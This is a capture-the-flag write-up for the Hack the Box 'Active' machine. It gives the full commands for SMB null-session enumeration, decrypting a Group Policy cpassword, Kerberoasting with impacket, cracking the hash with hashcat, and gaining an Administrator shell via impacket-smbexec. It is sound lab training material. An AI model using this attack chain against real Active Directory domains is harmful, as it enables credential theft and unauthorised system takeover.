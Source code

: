 # Active
**Date:**  January 13th 2024

**Author:** j.info

**Link:** [**Active**](https://app.hackthebox.com/machines/148) on Hack the Box

**Hack the Box Difficulty Rating:** Easy

<br>

![](images/active0.png)

<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sC -sV -p- -oN nmap --min-rate=4500 active.htb`

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-13 20:30:23Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49173/tcp open  msrpc         Microsoft Windows RPC
49174/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-01-13T20:31:21
|_  start_date: 2024-01-13T20:26:08
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
```

<br>

## SMB Digging

The first thing I take a look at is SMB since there are no web ports open. I use smbmap and it viewing shares with a null session is successful.

`smbmap -H active.htb`

![](images/active1.png)

Connecting over to the Replication share and downloading the files gives us several to look at.

`smbclient -N //active.htb/Replication/`

![](images/active2.png)

Using `tree` to clean up the view of files.

![](images/active3.png)

I recursively grep for the term password in all files that were downloaded and find that in the Groups.xml file we have an old cpassword hash for the active.htb\SVC_TGS user.

`grep -r "password" .`

![](images/active4.png)

The cpassword hashes are very old hashes that were used with group policy in versions of Windows before 2012. They are also instantly reverseable with the gpp-decrypt tool.

`gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"`

![](images/active5.png)

That gives us credentials for the SVC_TGS user. Let's see where we can use those.

Using crackmapexec shows that we have read access to additional shares now.

![](images/active6.png)

Looking through the NETLOGON share shows that it's empty. The SYSVOL share is a copy of the Replicaiton share and has the same files in it. And the Users share appears to be the c:/users folder on the machine since you can go to the SVC_TGS desktop and find the user.txt flag.

I also ran crackmapexec to find a list of users on the system.

`crackmapexec smb active.htb -u 'SVC_TGS' -p '<REDACTED>' --users`

![](images/active7.png)

I add those users to a file called users.txt and then check to see if any users are vulnerable to ASREPRoast, and none are.

`impacket-GetNPUsers active.htb/ -dc-ip active.htb -usersfile users.txt -format hashcat -outputfile asrep.hash`

![](images/active8.png)

Checking for users vulnerable to Kerberoasting shows that the Administrator user has a SPN set and is vulnerable, and we're able to capture their hash.

`impacket-GetUserSPNs -request -dc-ip active.htb active.htb/SVC_TGS -outputfile kerb.hash`

![](images/active9.png)

Checking the hashcat mode shows us it's mode 13100 for cracking.

`hashcat --show kerb.bash`

![](images/active10.png)

The password cracks quickly using hashcat.

`hashcat -m 13100 kerb.hash ~/rockyou.txt`

![](images/active11.png)

<br>

## System Access

Now that we have credentials for the Administrator account I look at what ports are available that allow remote access and don't see anything that jumps out other than WinRM which doesn't work when I try.

I give impacket-smbexec a try and it works for me.

`impacket-smbexec active.htb/Administrator@active.htb`

![](images/active12.png)

You can find the user.txt and root.txt flags at the following locations.

![](images/active13.png)

<br>

With that we've completed this CTF!

![](images/active14.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Using **smbmap** to find an open share on that allows null sessions
- Downloading all files from the SMB share and finding **Groups.xml** which has a username and password hash in it
- Using the **gpp-decrypt** tool on the cpassword hash to recover the password of the SVC_TGS account
- Using **crackmapexec** to find a list of users on the system
- Finding that the Administrator account is vulnerable to **kerberoasting** using **impacket-GetUserSPNs**
- Cracking the Administrator password with **hashcat**
- Using **impacket-smbexec** to obtain a shell on the system as Administrator

<br>

Many thanks to:
- [**eks**](https://app.hackthebox.com/users/302) and [**mrb3n**](https://app.hackthebox.com/users/2984) for creating this CTF
- **Hack the Box** for hosting this CTF

<br>

You can visit them at: [**https://www.hackthebox.com**](https://www.hackthebox.com)